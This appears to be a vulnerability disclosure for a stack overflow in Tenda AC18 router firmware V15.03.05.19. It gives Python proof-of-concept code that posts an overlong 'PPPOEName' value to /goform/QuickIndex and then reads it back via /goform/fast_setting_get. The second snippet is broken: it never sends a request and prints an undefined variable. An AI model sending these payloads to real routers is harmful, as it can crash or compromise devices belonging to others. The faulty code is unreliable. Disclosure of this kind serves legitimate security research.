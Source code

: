 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/QuickIndex` url. The `v9` variable receives the `PPPOEName` parameter from a POST request and is stored in the configuration item named``wan1.ppoe.userid` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_161638.png)

`wan1.ppoe.userid`  configuration item can  be retrieved through the GetValue function in the `/goform/fast_setting_get` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_162239.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/QuickIndex"
payload = "a"*1000

data = {"mit_linktype": 2,"PPPOEName":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_get"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
